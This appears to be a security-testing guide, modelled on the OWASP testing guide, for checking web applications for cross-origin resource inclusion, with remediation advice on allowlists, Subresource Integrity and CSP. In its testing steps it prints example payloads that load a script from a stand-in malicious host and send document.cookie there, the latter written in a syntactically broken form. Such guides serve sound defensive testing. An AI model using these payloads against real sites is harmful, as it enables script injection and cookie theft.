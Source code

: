 # WSTG-CLNT-13: Testing for Cross-Origin Resource Inclusion (CORI)

## Summary

Cross-Origin Resource Inclusion (CORI) vulnerabilities occur when a web application allows external resources (e.g., scripts, stylesheets, or images) to be included or loaded from untrusted sources. This can lead to unauthorized data exfiltration, execution of malicious scripts, or other security issues.

## Objective

To identify and exploit scenarios where an application improperly includes cross-origin resources, enabling attackers to inject malicious resources or exfiltrate sensitive data.

## How to Test

### Step 1: Identify External Resource Inclusion
1. Inspect the application for externally loaded resources, such as:
   - JavaScript files
   - CSS files
   - Images
   - Fonts

2. Analyze resource loading mechanisms:
   - Dynamic imports (e.g., `import()`, `require()`)
   - DOM manipulation methods (e.g., `createElement('script')`, `appendChild()`)

---

### Step 2: Analyze Resource Inclusion Behavior
1. Check the application for hardcoded external URLs in:
   - HTML tags (`<script>`, `<link>`, `<img>`)
   - Inline JavaScript
   - API calls that dynamically load resources

2. Review how external resource URLs are validated:
   - Are URLs dynamically constructed using user input?
   - Is validation performed to restrict sources?

---

### Step 3: Test for CORI Vulnerabilities
1. **Inject Malicious External Resources**:
   - Replace external resource URLs with attacker-controlled URLs:
     ```html
     <script src="https://malicious.com/malware.js"></script>
     ```

2. **Manipulate Dynamic Imports**:
   - Test if user-controlled input affects dynamically loaded resources:
     ```javascript
     const script = document.createElement('script');
     script.src = userInput; // Test for input control
     document.body.appendChild(script);
     ```

3. **Analyze for Data Exfiltration**:
   - Inject resources that attempt to exfiltrate sensitive data:
     ```javascript
     <img src="https://malicious.com/steal?cookie=" + document.cookie>
     ```

---

### Step 4: Validate Exploitation
1. Confirm if the application includes and executes the malicious resource.
2. Assess the impact, such as:
   - Unauthorized data exfiltration (e.g., cookies, tokens).
   - Execution of malicious scripts.
   - Integrity compromise through CSS or DOM manipulation.

---

## Tools

- **Browser Developer Tools** for inspecting included resources.
- **Burp Suite** or **OWASP ZAP** for intercepting and modifying requests.
- **Custom JavaScript Payloads** to manipulate resource inclusion dynamically.
- **CURL** or **Postman** for testing resource URLs.

---

## Remediation

1. **Validate and Restrict Included Resources**:
   - Implement a strict allowlist of trusted domains for resource inclusion.
   - Avoid dynamically constructing resource URLs using user input.

2. **Use Subresource Integrity (SRI)**:
   - Add integrity attributes to `<script>` and `<link>` tags to ensure resources are not tampered with:
     ```html
     <script src="https://example.com/script.js" integrity="sha384-xyz" crossorigin="anonymous"></script>
     ```

3. **Enforce Content Security Policy (CSP)**:
   - Restrict allowed sources for scripts, styles, and other resources using CSP:
     ```http
     Content-Security-Policy: script-src 'self' https://trusted.com;
```     

4. **Regularly Audit Included Resources**:
   - Periodically review and verify all external resources for security and reliability.

5. **Avoid Inline Resource Loading**:
   - Minimize the use of inline resource inclusion to reduce potential attack vectors.

---

## References

- [OWASP Testing Guide - CORI Testing](https://owasp.org/www-project-testing/)
- [MDN Web Docs - Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- [OWASP Top Ten - A05:2021 Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)
- [W3C - Subresource Integrity](https://www.w3.org/TR/SRI/)

---
